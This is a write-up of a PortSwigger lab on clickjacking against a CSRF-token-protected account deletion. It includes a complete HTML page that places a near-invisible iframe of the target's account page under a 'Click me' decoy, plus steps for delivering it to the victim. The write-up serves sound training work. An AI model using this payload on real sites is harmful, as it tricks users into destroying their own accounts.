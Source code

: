 # Basic clickjacking with CSRF token protection | Jan 2, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected), you'll learn: Basic clickjacking with CSRF token protection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains login functionality and a delete account button that is protected by a [CSRF token](https://portswigger.net/web-security/csrf/tokens). A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102033915.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102033934.png)

In here, we can update our email and delete account.

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class='button' type='submit'> Update email </button>
    </form>
    <form id=delete-account-form action="/my-account/delete" method="POST">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

Also, they're using a CSRF token try to prevent CSRF attack.

**Now, let's build a hidden `<iframe>` and a clickbait text:**
```html
<html>
    <head>
        <title>Basic clickjacking with CSRF token protection</title>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:495px;
                left:60px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0a2f006904c03654c0f5634d009f00aa.web-security-academy.net/my-account"></iframe>
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102044948.png)

**Then, host it on the exploit server, and deliver to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102045023.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Clickjacking/Clickjacking-1/images/Pasted%20image%2020230102045030.png)

We did it!

# What we've learned:

1. Basic clickjacking with CSRF token protection